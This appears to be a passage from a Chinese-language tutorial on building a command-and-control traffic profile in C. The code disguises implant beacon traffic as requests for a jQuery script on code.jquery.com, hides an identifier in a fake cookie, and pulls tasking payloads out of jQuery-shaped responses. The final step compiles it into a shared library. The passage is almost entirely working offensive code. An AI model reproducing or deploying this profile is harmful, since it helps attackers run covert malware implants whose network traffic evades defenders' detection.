     void cc2_rebind_http_post_send(char *reqData, char *id, char **outputData, long long *outputData_len) {  
        char *requestBody = "POST /%s?__cfduid=%s HTTP/1.1\r\n"  
                            "Host: code.jquery.com\r\n"  
                            "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"  
                            "Accept-Encoding: gzip, deflate\r\n"  
                            "User-Agent: Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko\r\n"  
                            "Referer: http://code.jquery.com/\r\n"  
                            "Connection: close\r\n"  
                            "Content-Length: %d\r\n\r\n%s";  
        char *postPayload = (char *)calloc(1, strlen(requestBody)+strlen(reqData)+200);  
        sprintf(postPayload, requestBody, "jquery-3.3.2.min.js", id, strlen(reqData), reqData);  
      
        *outputData_len =  strlen(postPayload);  
        *outputData = (char *)calloc(1,  *outputData_len);  
        memcpy(*outputData, postPayload, *outputData_len);  
        free(postPayload);  
    }  
      
    char *find_payload(char *rawData, long long rawData_len, char *start, char *end, long long *payload_len) {  
      
        rawData = strstr(rawData, start) + strlen(start);  
      
        *payload_len = strlen(rawData) - strlen(strstr(rawData, end));  
      
        char *payload = (char *)calloc(*payload_len ,sizeof(char));  
        memcpy(payload, rawData, *payload_len);  
        return payload;  
    }  
      
    void cc2_rebind_http_get_recv(char *rawData, long long rawData_len, char **outputData, long long *outputData_len) {  
        char *start = "return-1},P=\"\r";  
        char *end = "\".(o=t.documentElement";  
      
        long long payload_len = 0;  
        *outputData = find_payload(rawData, rawData_len, start, end, &payload_len);  
        *outputData_len = payload_len;  
    }  
      
    void cc2_rebind_http_post_recv(char *rawData, long long rawData_len, char **outputData, long long *outputData_len) {  
        char *start = "return-1},P=\"\r";  
        char *end = "\".(o=t.documentElement";  
      
        long long payload_len = 0;  
        *outputData = find_payload(rawData, rawData_len, start, end, &payload_len);  
        *outputData_len = payload_len;  
    }  
    

将`c2profile.c`文件编译成`.so`文件

    
    
    gcc c2profile.c -fPIC -shared -o lib_rebind_test.so  
    